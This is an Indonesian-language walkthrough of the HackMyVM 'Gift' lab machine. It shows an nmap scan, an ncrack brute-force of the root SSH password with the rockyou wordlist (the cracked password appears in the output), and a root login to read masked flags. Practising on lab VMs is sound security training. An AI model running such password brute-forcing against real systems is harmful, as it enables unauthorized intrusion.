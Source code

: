 ```yaml
---
layout: Post
title: HackMyVM - Gift Writeup
date: 2021-10-16 07:45 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/gift.zip">Texte</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/x6cx61x63x61x73">sml</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialah scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
┌─[root@Kiyo] - [~/Kiyo/HackMyVM/Gift] - [10539]
└─[$] nmap -A 192.168.0.199                                                                                                 [7:45:38]
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-16 07:45 WIB
Nmap scan report for 192.168.0.199
Host is up (0.00072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx
|_http-server-header: nginx
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:F1:13:D3 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=10/16%OT=22%CT=1%CU=43628%PV=Y%DS=1%DC=D%G=Y%M=080027%
OS:TM=616A20D0%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%TS=
OS:A)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B
OS:4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W
OS:1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%
OS:O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=
OS:N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A
OS:=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%D
OS:F=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL
OS:=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## Bruteforce Password
Oke disini ku bingung karena pas ku scan directory gak ada yang mencurigakan, akhirnya ku coba bruteforce password root dari vm dengan `ncrack` :

```console
┌─[root@Kiyo] - [~/Kiyo/HackMyVM/Gift] - [10541]
└─[$] ncrack -v -f --user root -P /opt/wordlist/rockyou.txt 192.168.0.199:22                                                [7:48:54]

Starting Ncrack 0.6 ( http://ncrack.org ) at 2021-10-16 07:49 WIB

Discovered credentials on ssh://192.168.0.199:22 'root' 'simple'
ssh://192.168.0.199:22 finished.

Discovered credentials for ssh on 192.168.0.199 22/tcp:
192.168.0.199 22/tcp ssh: 'root' 's****e'

Ncrack done: 1 service scanned in 25.24 seconds.
Probes sent: 83 | timed-out: 0 | prematurely-closed: 12

Ncrack finished.
```

# SSH

And boom dapetlah password root nya , serta flag root dan user :

```console
┌─[root@Kiyo] - [~/Kiyo/HackMyVM/Gift] - [10542]
└─[$] ssh root@192.168.0.199                                                                                                [7:49:31]
The authenticity of host '192.168.0.199 (192.168.0.199)' can't be established.
ECDSA key fingerprint is SHA256:KFsXFz6bLBGiizM+z6jxQpNrqpVzPLLX7Fj7n/npQHc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.0.199' (ECDSA) to the list of known hosts.
root@192.168.0.199's password: 
IM AN SSH SERVER
gift:~# ls
root.txt  user.txt
gift:~# cat root.txt user.txt; echo "https://github.com/xNCT22x"
HMV******FG
HMV******DS
https://github.com/xNCT22x
```
